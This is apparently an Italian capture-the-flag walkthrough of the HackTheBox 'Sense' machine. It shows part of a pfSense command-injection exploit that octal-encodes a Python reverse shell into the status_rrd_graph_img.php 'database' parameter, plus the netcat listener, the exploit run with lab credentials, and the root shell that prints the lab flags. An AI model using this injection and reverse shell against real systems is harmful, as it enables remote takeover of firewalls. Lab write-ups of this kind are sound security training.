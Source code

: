 ```bash
os.dup2(s.fileno(),2);  
p=subprocess.call(["/bin/sh","-i"]);'  
""" % (lhost, lport)payload = ""  
  
# encode payload in octal  
for char in command:  
	payload += ("\\" + oct(ord(char)).lstrip("0o"))  
  
login_url = 'https://' + rhost + '/index.php'  
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"  
......

```

Sembra che lo script status_rrd_graph_img.php sia vulnerabile a un'iniezione di comando. Per sfruttarlo, lo script passa una semplice shell python inversa (con i parametri di configurazione che passiamo come argomenti) come comando. 
Pertanto, alziamo un nc per ricevere la shell.

```bash
┌──(root㉿kali)-[/home/kali/htb/sense]
└─# nc -lnvp 4444
listening on [any] 4444 ...
```

ed eseguiamo l'exploit 

```bash
┌──(root㉿kali)-[/home/kali/htb/sense]
└─# python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.43 --lport 4444 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed

```

Otteniamo cosi la nostra shell

```bash
┌──(root㉿kali)-[/home/kali/htb/sense]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.60] 13524
sh: can't access tty; job control turned off
#
# cat user.txt
cat user.txt
8721327cc232073b40d27d9c17e7348b
# cat root.txt
cat root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
```
